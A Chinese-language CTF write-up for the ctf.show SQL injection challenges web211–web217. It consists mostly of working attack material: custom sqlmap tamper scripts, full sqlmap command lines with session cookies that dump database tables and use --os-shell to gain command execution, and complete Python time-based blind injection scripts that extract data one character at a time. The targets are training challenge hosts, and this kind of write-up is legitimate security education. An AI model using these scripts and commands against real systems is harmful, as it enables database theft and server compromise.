### web211

提示还是用脚本


加解密函数没变，多了一个空格过滤

```python
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    retVal = payload
    if payload:
        retVal = base64.b64encode(base64.b64encode(payload[::-1].encode())[::-1]).decode()
    return retVal
```

```
python sqlmap.py -u http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/getToken.php" --safe-freq=1 --dbs --batch --tamper space2comment.py,my2.py
```

space2comment.py 在前，查库



```
python sqlmap.py -u http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch --tamper space2comment.py,my2.py
```



```
python sqlmap.py -u http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavia --columns --batch --tamper space2comment.py,my2.py
```



```
python sqlmap.py
-u http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/index.php
--method="PUT"
--data id=1
--referer http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain"
--cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4"
--safe-url="http://db70fa79-5a71-47fc-bbaa-2dc9c821be63.challenge.ctf.show/api/getToken.php"
--safe-freq=1 -D ctfshow_web -T ctfshow_flavia -C ctfshow_flagxxa --dump
--batch
--tamper space2comment.py,my2.py
```



### web212



多了一个`*`过滤
将空格变为`%09`

```python
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
import base64
__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):

    retVal = payload

    if payload:
        retVal = retVal.replace(' ',chr(0x09))

    return retVal
```

新增一个 my3.py 脚本，与 my2.py 结合使用

```
python sqlmap.py -u http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/getToken.php" --safe-freq=1 --dbs --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavis --columns --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://57472a4e-e08a-49da-8c54-7dc6701a4cdc.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flavis -C ctfshow_flagxsa,id,tes --dump --batch --tamper my3.py,my2.py
```



### web213

空格和`*`号过滤

解密

上题还可以用

```
python sqlmap.py -u http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/getToken.php" --safe-freq=1 --dbs --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web --tables --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_user --columns --batch --tamper my3.py,my2.py
```



```
python sqlmap.py -u http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_user -C id,pass,username --dump --batch --tamper my3.py,my2.py
```



数据库中无 flag,题目 hint:练习使用--os-shell 一键 getshell

> **sqlmap**  的  *--os-shell*  功能在 MySQL 数据库中的原理是通过 SQL 注入漏洞在服务器上写入并执行 PHP 脚本，从而允许用户执行操作系统命令。

```
python sqlmap.py -u http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/index.php --method="PUT" --data id=1 --referer  http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/sqlmap.php --headers="Content-Type: text/plain" --cookie="cf_clearance=zOvseNGe7vsa2iI2sul0q..4iqncuiCpp8aVLf69f9Y-1717821963-1.0.1.1-N5r_3ciDzNeXvE8j78vzM6Uka2Tkxbx_0Jor4kyshLMGZLVImg6LN8JOObUcpFLUAVMeTbSquJsxIvNK.js70Q; PHPSESSID=m751m5q6bq0iovaur5u94kteq4" --safe-url="http://2ba83cd9-e9e2-4f4c-bd46-eb1c95237df3.challenge.ctf.show/api/getToken.php" --safe-freq=1 --os-shell --dump --batch --tamper my3.py,my2.py
```





### web214

开始基于时间盲注

select.js 看出
向/api/提交了两个参数：ip 和 debug。  
经过手动测试，参数 ip 可以进行 sql 注入，如下会有延迟：



抓包也可以看出

if(1=1,1,sleep(1))

ip=sleep(1)&debug=0





可以时间盲注

脚本

```python
import requests
import time


url = "http://9351cdad-b153-44ed-a791-687c6a349059.challenge.ctf.show/api/"
result = ""


def time_based_injection(payload, position):
    """使用二分法进行时间盲注"""
    left, right = 32, 127  # ASCII 可打印字符范围
    while left < right:
        mid = (left + right) // 2
        # 构造判断条件，如果大于mid则延迟1秒
        data = {
            'ip': f"if(ascii(substr(({payload}),{position},1))>{mid},sleep(2),1)",
            'debug': '0'
        }

        try:
            start_time = time.time()
            r = requests.post(url, data=data, timeout=3)
            request_time = time.time() - start_time

            # 如果请求时间大于1.5秒，说明条件为真
            if request_time > 1.5:
                left = mid + 1
            else:
                right = mid

        except requests.Timeout:
            # 超时说明条件为真
            left = mid + 1

        except Exception as e:
            print(f"Error: {e}")
            return None

    return chr(left)


def main():

    # 查询语句

    queries = [
        "select group_concat(table_name) from information_schema.tables where table_schema=database()",
        "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'",
        "select flaga from ctfshow_flagx"
    ]

    # 选择要执行的查询
    payload = queries[0]
    position = 1
    result = ""

    while True:

        char = time_based_injection(payload, position)

        if not char or ord(char) == 32:  # 如果返回空或空格字符，说明结束了

            break

        result += char

        print(f"Current Result: {result}")

        position += 1

        time.sleep(0.5)  # 避免请求过快

    print(f"Final Result: {result}")


if __name__ == "__main__":
    main()
```



### web215

//用了单引号

改一下 ip 就行

```python
import requests
import time


url = "http://9967baa4-1d79-4ce2-8ada-8a7660bd2577.challenge.ctf.show/api/"

result = ""


def time_based_injection(payload, position):

    """使用二分法进行时间盲注"""

    left, right = 32, 127  # ASCII 可打印字符范围

    while left < right:

        mid = (left + right) // 2

        # 构造判断条件，如果大于mid则延迟1秒

        data = {

            'ip': f"1' or if(ascii(substr(({payload}),{position},1))>{mid},sleep(2),1)#",
            'debug': '0'

        }

        try:

            start_time = time.time()

            r = requests.post(url, data=data, timeout=3)

            request_time = time.time() - start_time

            # 如果请求时间大于1.5秒，说明条件为真

            if request_time > 1.5:

                left = mid + 1

            else:

                right = mid

        except requests.Timeout:

            # 超时说明条件为真

            left = mid + 1

        except Exception as e:
            print(f"Error: {e}")
            return None
    return chr(left)


def main():

    # 查询语句

    queries = [
        "select group_concat(table_name) from information_schema.tables where table_schema=database()",
        "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'",
        "select flagaa from ctfshow_flagxc"

    ]

    # 选择要执行的查询

    payload = queries[0]  # 可以修改索引来切换不同的查询

    position = 1

    result = ""

    while True:
        char = time_based_injection(payload, position)
        if not char or ord(char) == 32:  # 如果返回空或空格字符，说明结束了
            break
        result += char
        print(f"Current Result: {result}")
        position += 1
        time.sleep(0.5)  # 避免请求过快

    print(f"Final Result: {result}")

if __name__ == "__main__":
    main()
```



### web216

`where id = from_base64($id);`
多了一个条件

`'MQ==')`

脚本如下

```python
import requests

import time


url = "http://69c5c0fa-c09f-4e07-837e-a8be29975743.challenge.ctf.show/api/"

result = ""


def time_based_injection(payload, position):

    """使用二分法进行时间盲注"""

    left, right = 32, 127  # ASCII 可打印字符范围

    while left < right:

        mid = (left + right) // 2

        # 构造判断条件，如果大于mid则延迟1秒

        data = {

            'ip': f"'MQ==') or if(ascii(substr(({payload}),{position},1))>{mid},sleep(2),1)#",

            'debug': '0'

        }

        try:

            start_time = time.time()

            r = requests.post(url, data=data, timeout=3)

            request_time = time.time() - start_time

            # 如果请求时间大于1.5秒，说明条件为真

            if request_time > 1.5:

                left = mid + 1

            else:

                right = mid

        except requests.Timeout:

            # 超时说明条件为真

            left = mid + 1

        except Exception as e:

            print(f"Error: {e}")

            return None

    return chr(left)


def main():

    # 查询语句

    queries = [

        "select group_concat(table_name) from information_schema.tables where table_schema=database()",

        "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'",

        "select flagaac from ctfshow_flagxcc"

    ]

    # 选择要执行的查询

    payload = queries[1]  # 可以修改索引来切换不同的查询

    position = 1

    result = ""

    while True:

        char = time_based_injection(payload, position)

        if not char or ord(char) == 32:  # 如果返回空或空格字符，说明结束了

            break

        result += char

        print(f"Current Result: {result}")

        position += 1

        time.sleep(0.5)  # 避免请求过快

    print(f"Final Result: {result}")


if __name__ == "__main__":

    main()
```

### web217


把`sleep`过滤了

使用`benchmark`绕过：


